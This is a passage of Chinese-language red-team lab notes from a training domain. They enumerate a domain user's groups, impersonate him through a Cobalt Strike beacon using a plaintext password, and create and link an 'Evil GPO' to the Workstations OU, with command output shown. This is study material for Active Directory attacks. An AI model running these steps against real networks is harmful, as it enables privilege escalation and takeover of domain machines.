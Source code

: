 
# Remote Server Administration Tools (RSAT)

查看jking的域身份
```

PS H:\> net user jking /domain
The request will be processed at a domain controller for domain dev.cyberbotic.io.

User name                    jking
Full Name                    John King
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2021 3:22:59 PM
Password expires             Never
Password changeable          2/24/2021 3:22:59 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory               \\dc-2\home$\jking
Last logon                   8/15/2022 11:38:57 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *1st Line Support     *Domain Users
                             *Roaming Users        *Proxy Users
The command completed successfully.

```

在1st Line Support组，前面我们已经知道这个组可以创建GPO，并且link给任何OU


以jking的身份创建一个GPO
```
beacon> make_token dev\jking Purpl3Drag0n
[*] Tasked beacon to create a token for dev\jking
[+] host called home, sent: 64 bytes
[+] Impersonated DEV\bfarmer
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 32 bytes
[*] You are DEV\bfarmer
beacon> cd c:/
[*] cd c:/
[+] host called home, sent: 35 bytes
beacon> powershell New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"
[*] Tasked beacon to run: New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=cyberbotic,DC=io"
[+] host called home, sent: 533 bytes
[+] received output:
#< CLIXML


GpoId       : c5b796ea-72f9-4cdf-8e47-2c983a33b465
DisplayName : Evil GPO
```
